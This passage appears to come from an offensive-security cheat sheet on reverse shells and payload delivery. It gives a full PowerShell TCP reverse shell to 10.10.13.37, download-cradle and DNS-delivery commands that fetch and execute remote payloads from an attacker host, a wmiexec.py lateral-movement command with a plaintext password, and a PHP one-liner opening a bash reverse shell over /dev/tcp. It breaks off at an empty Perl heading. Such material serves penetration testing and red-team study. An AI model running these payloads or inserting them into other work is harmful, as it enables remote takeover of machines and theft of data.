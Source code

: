 ```powershell
#$a=New-Object System.Net.Sockets.TcpClient("10.10.13.37",1337);if($a -eq $null){exit 1}$b=$a.GetStream();$c=New-Object System.IO.StreamWriter($b);$d=New-Object System.Byte[] 1024;$e=New-Object System.Text.AsciiEncoding;do{$c.Flush();$f=$null;$g="";while($b.DataAvailable -or $f -eq $null) {$f=$b.Read($d,0,1024)}$h=$e.GetString($d,0,$f).Replace("`r`n","").Replace("`n","");if(!$h.equals("exit")){$i="";if($h.IndexOf(" ") -gt -1){$i=$h.Substring($h.IndexOf(" ")+1);$h=$h.Substring(0,$h.IndexOf(" "));if($i.Split(" ").Length -gt 1){$k=New-Object System.Diagnostics.ProcessStartInfo;$k.FileName="cmd.exe";$k.RedirectStandardError=$true;$k.RedirectStandardOutput=$true;$k.UseShellExecute=$false;$k.Arguments="/c $h $i";$p=New-Object System.Diagnostics.Process;$p.StartInfo=$k;$p.Start()|Out-Null;$p.WaitForExit();$l=$p.StandardOutput.ReadToEnd();$m=$p.StandardError.ReadToEnd();if($p.ExitCode -ne 0){$g=$m}else{$g=$l}}else{$g=(&"$h" "$i")|Out-String;}}else{$g=(&"$h")|Out-String;}if($g -ne $null){$c.WriteLine($g)}}}while(!$h.equals("exit"))$c.close();$a.close();$b.Dispose()
```



### Download Cradles

- [https://gist.github.com/HarmJ0y/bb48307ffa663256e239](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)
- [https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)
- [https://github.com/VirtualAlllocEx/Payload-Download-Cradles](https://github.com/VirtualAlllocEx/Payload-Download-Cradles)



### PowerShell DNS Delivery

- [https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/)
- [https://github.com/mdsecactivebreach/PowerDNS](https://github.com/mdsecactivebreach/PowerDNS)

```
'powershell $a=""""http://10.10.13.37/payload.txt"""";iex(Resolve-DnsName """"cradle.attacker.com"""" 16).Strings[0]'

wmiexec.py -silentcommand -nooutput megacorp.local/snovvcrash:'Passw0rd!'@PC01.megacorp.local 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe $url=""""http://10.10.13.37/run.ps1"""";iex(resolve-dnsname """"cradle.attacker.com"""" 16).strings[0];Invoke-RunPayload http://10.10.13.37/payload.txt'
```




## PHP

```php
<?php echo passthru("/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"); ?>
```




## Perl

